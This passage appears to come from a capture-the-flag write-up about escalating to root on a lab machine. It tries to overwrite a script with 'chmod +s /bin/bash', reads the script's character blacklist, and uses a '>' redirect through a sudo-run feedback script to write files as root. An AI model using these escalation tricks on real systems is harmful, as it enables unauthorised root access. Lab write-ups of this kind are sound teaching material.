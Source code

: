 
Looking at the permissions for the script, our user owns it. So, we should be able to modify it.
`   ls -la /opt/NewComponent/feedback.sh   `


But if we try to do so, we can see it is not permitted.
`   echo -e '#!/bin/bash\nchmod +s /bin/bash' > /opt/NewComponent/feedback.sh `


Listing the attributes for the file, we can see that the `i` flag is set, which prevents us from modifying it.
`   lsattr /opt/NewComponent/feedback.sh   `

Result:
```
----i---------e----- /opt/NewComponent/feedback.sh

Here, the `i` flag means the file is **immutable** — it can't be modified, renamed, or deleted.

|`i`| Immutable — can't be changed, even by root|

|`a`| Append-only — can only be written to, not overwritten|

|`d`| No dump — excluded from `dump` backups|

|`e`| Extents — indicates use of extents (ext4 performance feature)|

|`j`| Data is journaled|
```



Check the code:
`   cat /opt/NewComponent/feedback.sh   `


It checks if our inputs include any one of the `` ` ``, `)`, `$(`, `|`, `&`, `;`, `?`, `!`, `\` characters.
```
if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
```


Luckily, neither `>` nor `/` are one of the restricted characters; we can use this to write to any file we want as the `root` user like this:

`sudo /opt/NewComponent/feedback.sh`

Result:
```
deku@ip-10-10-143-172:~$ sudo /opt/NewComponent/feedback.sh
[sudo] password for deku: 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
test > /tmp/test.txt
It is This:
Feedback successfully saved.
deku@ip-10-10-143-172:~$ cat /tmp/test.txt
test
deku@ip-10-10-143-172:~$ ls -la /tmp/test.txt
-rw-r--r-- 1 root root 5 May 26 23:28 /tmp/test.txt
```
